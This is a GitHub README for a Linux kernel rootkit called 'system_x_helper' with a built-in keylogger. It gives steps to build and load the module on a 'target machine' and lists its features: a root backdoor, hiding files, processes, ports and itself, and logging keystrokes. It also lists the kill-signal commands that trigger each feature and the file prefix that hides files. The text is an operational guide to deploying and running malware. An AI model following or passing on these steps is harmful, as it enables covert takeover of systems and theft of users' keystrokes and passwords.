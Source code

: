 # My rootkit!
Most code copied from [The Xcellerator](https://github.com/xcellerator/linux_kernel_hacking/tree/master/3_RootkitTechniques)</br>
Keylogger from [jarun](https://github.com/jarun/spy)

The rootkit's name is `system_x_helper`

---

## How to install

Clone this repository

### Install `dependencies` on the target machine

#### Debian
`$ apt install make build-essential linux-headers-$(uname -r)`
#### RedHat
`$ yum install kernel-devel kernel-headers make gcc`

### Warning
Pay close attention `/lib/modules/<installed requirements>` and make sure that it matches with `uname -r`

Sometimes `uname -r` adds something extra. If that's the case, edit the `Makefile` and replace `$(shell uname -r)` with whatever is in `/lib/modules/`

#### If worse comes to worst and it still doesn't work
Do `$ ls -l /lib/modules/$(shell uname -r)/build`</br>
That should give you a directory that it's linked to.</br>
Rename that directory to match `uname -r`. (It's probably renamed something else)</br>
Also edit `/usr/src/kernels/{your version}/include/generated/utsrelease.h` and change it to match the output of `uname -r` as well.

### Finishing off

Now run `$ make`

Finaly, run `$ /sbin/insmod system_x_helper.ko`

---

## Functionality
- Uses `kill` to run different things
- Gives root access
- Hide files/directories
- Hide processes
- Hide open ports/active connections
- Hide itself
- Keylogger (log: `/sys/kernel/debug/system_x_kisni/system_x_keys`)

---

## Kill flags for each functionality

#### Root backdoor
`$ kill -64 9843`
> 9843 can be any number

#### Toggle hide/unhide self (Hidden by default)
`$ kill -63 9489`
> 9489 can be any number

#### Toggle hide specified process (Can hide up to 16)
`$ kill -62 <PID to hide/unhide>`

#### Hide ports
`$ kill -61 <port number to hide>`

#### Toggle keylogger
`$ kill -60 9028`
> 9028 can be any number

---

## Hidden files/directories

#### Prefix
`system_x_`
> hides the file/directory

---

# LISCENSE
BSD 2-Clause License

Copyright (c) 2023, Kaicheng Ye

Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions are met:

1. Redistributions of source code must retain the above copyright notice, this
   list of conditions and the following disclaimer.

2. Redistributions in binary form must reproduce the above copyright notice,
   this list of conditions and the following disclaimer in the documentation
   and/or other materials provided with the distribution.

THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS"
AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE
IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE
DISCLAIMED. IN NO EVENT SHALL THE COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE
FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL
DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR
SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER
CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY,
OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE
OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.

